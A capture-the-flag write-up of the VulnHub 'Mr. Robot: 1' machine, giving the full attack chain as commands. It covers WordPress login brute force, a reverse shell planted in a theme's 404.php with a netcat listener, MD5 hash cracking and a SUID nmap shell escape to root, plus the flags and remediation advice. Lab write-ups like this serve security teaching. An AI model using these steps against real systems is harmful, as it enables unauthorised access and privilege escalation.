

# Mr. Robot: 1 — VulnHub Machine Write-up

### Machine Information

| Category | Details |
| **Machine** | Mr. Robot: 1 |
| **Platform** | VulnHub |
| **Difficulty** | Intermediate |
| **Attacker OS** | Kali Linux (`192.168.56.101`) |
| **Target IP** | `192.168.56.105` |
| **Environment** | VirtualBox (Host-Only Adapter `eth1`) |
| **Goal** | Retrieve all 3 keys and obtain root privileges |

---

### Executive Summary

This write-up documents the black-box security assessment of the **Mr. Robot: 1** virtual machine. The attack path starts with subnet host discovery and port enumeration, identifies exposed sensitive files via `robots.txt`, recovers credentials through WordPress user enumeration and dictionary optimization, secures initial remote code execution via an injected theme template, stabilizes the shell, pivots to the local user `robot` via MD5 cracking, and culminates in full root access by exploiting an outdated SUID `nmap` binary.

---

### Key Findings

* **Information Exposure (`robots.txt`):** The web server exposed direct links to a customized dictionary (`fsocity.dic`) and the first key (`key-1-of-3.txt`).
* **Predictable User Enumeration:** WordPress login error messages differentiated between valid and invalid usernames, confirming account `elliot`.
* **Insecure File Management:** The WordPress theme editor allowed authenticated users to modify PHP template files (`404.php`), granting Remote Code Execution (RCE).
* **Weak Credential Storage:** An unshadowed MD5 password hash for local user `robot` was stored in a world-readable file (`password.raw-md5`).
* **Privilege Escalation via SUID Abuse:** Legacy binary `/usr/local/bin/nmap` (v3.81) was configured with the SUID bit set, allowing an interactive shell escape directly to `root`.

---

### Attack Chain Flow

```text
Host Discovery (arp-scan / netdiscover)
       │
       ▼
Service Enumeration (Nmap full TCP scan)
       │
       ▼
Web Discovery (robots.txt -> key-1-of-3.txt & fsocity.dic)
       │
       ▼
Credential Recovery (Wordlist deduplication -> WP login brute-force)
       │
       ▼
Initial Foothold (Theme Editor 404.php -> Reverse Shell)
       │
       ▼
Horizontal Escalation (MD5 crack -> user 'robot' -> key-2-of-3.txt)
       │
       ▼
Vertical Escalation (SUID nmap --interactive breakout -> root)
       │
       ▼
Final Objective (Root proof & key-3-of-3.txt)

### Phase 1: Reconnaissance & Enumeration1.

#### Host Discovery.

Target machine was located on the VirtualBox Host-Only subnet (eth1) using arp-scan:

```bash
arp-scan --interface=eth1 192.168.56.0/24
```

Target IP confirmed: 192.168.56.105.2.
Service & Port ScanningA full TCP port scan was performed to detect open ports and versions:Bashsudo nmap -sC -sV -p- -T4 -oN nmap_mr_robot.txt 192.168.56.105
Key Findings:Port 80/TCP: Apache httpd 2.4.7 ((Ubuntu))Port 443/TCP: Apache httpd (SSL/TLS enabled)Port 22/TCP: Closed / Filtered (SSH unavailable)3. Web Surface Enumeration & Key 1Accessing http://192.168.56.105/robots.txt directly via browser or curl:Bashcurl -s [http://192.168.56.105/robots.txt](http://192.168.56.105/robots.txt)
Output:PlaintextUser-agent: *
fsocity.dic
key-1-of-3.txt
Navigating to http://192.168.56.105/key-1-of-3.txt yielded Key 1:Plaintext073403c2cd55dd0020b8f43a254304d7
Downloaded the customized dictionary for local brute-forcing:Bashwget [http://192.168.56.105/fsocity.dic](http://192.168.56.105/fsocity.dic)
Phase 2: Vulnerability Analysis & Exploitation1. Dictionary OptimizationThe downloaded fsocity.dic contained over 850,000 words with extensive repetition. To speed up authentication attempts, the file was sorted and deduplicated:Bashwc -l fsocity.dic
# ~858,160 lines

sort -u fsocity.dic > clean_fsocity.dic
wc -l clean_fsocity.dic
# ~11,451 unique lines
Deduplication reduced the wordlist size by ~98%, significantly reducing brute-force time.2. WordPress User Enumeration & Authentication Brute-ForceInspecting http://192.168.56.105/wp-login.php:Testing invalid user testuser returned: Invalid username.Testing username elliot returned: The password you entered for the username elliot is incorrect.This verified elliot as a valid user account. Using wpscan or hydra against the optimized wordlist:Bashwpscan --url [http://192.168.56.105/](http://192.168.56.105/) -U elliot -P clean_fsocity.dic
Discovered Credentials: elliot : ER28-06523. Initial Access via Malicious Theme ModificationLogged into the WordPress Dashboard at http://192.168.56.105/wp-login.php.Navigated to Appearance > Editor.Selected the 404 Template (404.php) from the active theme.Overwrote the template content with a standard PHP reverse shell payload pointed to 192.168.56.101:4444.Set up a local Netcat listener on the attacker machine:Bashnc -lvnp 4444
Triggered the payload by browsing to:Bashcurl -k [https://192.168.56.105/404.php](https://192.168.56.105/404.php)
A connection was established back to the listener as user daemon.4. Shell StabilizationUpgraded the limited shell to a fully interactive TTY:Bashpython -c 'import pty; pty.spawn("/bin/bash")'
# Pressed Ctrl+Z to background
stty raw -echo; fg
export TERM=xterm
Phase 3: Privilege Escalation1. Horizontal Escalation (daemon -> robot)Enumerating /home:Bashls -la /home/robot
Directory Contents:-r-------- 1 robot robot 33 Nov 13 2015 key-2-of-3.txt-rw-r--r-- 1 robot robot 39 Nov 13 2015 password.raw-md5Inspecting the readable hash file:Bashcat /home/robot/password.raw-md5
# robot:c3fcd3d76192e4007dfb496cca67e13b
Cracked the MD5 hash locally using john or hashcat:Bashhashcat -m 0 c3fcd3d76192e4007dfb496cca67e13b clean_fsocity.dic
Decrypted Password: abcdefghijklmnopqrstuvwxyzSwitched user and retrieved Key 2:Bashsu - robot
cat /home/robot/key-2-of-3.txt
Key 2: 822c73956184f694993bede3eb39f9592. Vertical Escalation (robot -> root)Searched for files with SUID permission bits:Bashfind / -perm -4000 -type f 2>/dev/null
Among standard system binaries, /usr/local/bin/nmap was flagged with SUID root permissions. Checking its version:Bash/usr/local/bin/nmap --version
# Output: Nmap version 3.81
In versions prior to 5.21, Nmap supported an interactive shell escape mode:Bash/usr/local/bin/nmap --interactive
nmap> !sh
whoami
# Output: root
id
# Output: uid=0(root) gid=0(root) groups=0(root)
Retrieved the final flag:Bashcat /root/key-3-of-3.txt
Key 3: 04a54d6f3093d7177018c2a8e3e6ec65Flags SummaryFlagFile LocationValueKey 1 of 3http://192.168.56.105/key-1-of-3.txt073403c2cd55dd0020b8f43a254304d7Key 2 of 3/home/robot/key-2-of-3.txt822c73956184f694993bede3eb39f959Key 3 of 3/root/key-3-of-3.txt04a54d6f3093d7177018c2a8e3e6ec65Remediation & Defensive HardeningProtect Sensitive Web Assets: Do not host operational wordlists or sensitive keys inside the web server's public document root. Avoid listing critical paths inside robots.txt.Mitigate User Enumeration: Configure web applications to return generic authentication error messages (e.g., "Invalid username or password") to prevent valid account discovery.Disable File Editing in CMS: Add the following directive to wp-config.php to prevent authenticated administrative accounts from modifying PHP files:PHPdefine('DISALLOW_FILE_EDIT', true);
Upgrade Hashing Algorithms: Transition from legacy, unsalted MD5 hashes to robust password-hashing schemes such as bcrypt or Argon2id.Enforce Least Privilege on Binaries: Regularly audit SUID binaries and remove elevated privileges from tools that allow subshell spawning:Bashsudo chmod u-s /usr/local/bin/nmap
DisclaimerThis write-up is provided strictly for educational and defensive security purposes. All testing was conducted on an isolated, authorized local virtual machine.
